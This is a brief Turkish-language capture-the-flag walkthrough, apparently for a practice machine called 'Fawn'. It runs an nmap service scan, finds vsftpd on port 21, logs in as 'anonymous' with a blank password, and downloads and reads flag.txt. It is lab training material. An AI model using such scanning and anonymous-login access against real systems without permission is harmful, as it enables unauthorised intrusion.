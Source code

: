# Fawn

!!! info "Target IP Address"

    10.129.25.41

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.25.41 -sV
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-10 22:58 +03
Nmap scan report for 10.129.25.41
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.69 seconds
```

FTP bağlantısı gerçekleştir ve `anonymous` kullanıcısı olarak giriş yap. Parola sorulduğunda boş parola gir:

```bash
ftp 10.129.25.41
```

Aşağıdaki komut ile bayrağı yerel makineye indir:

```text
get flag.txt
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
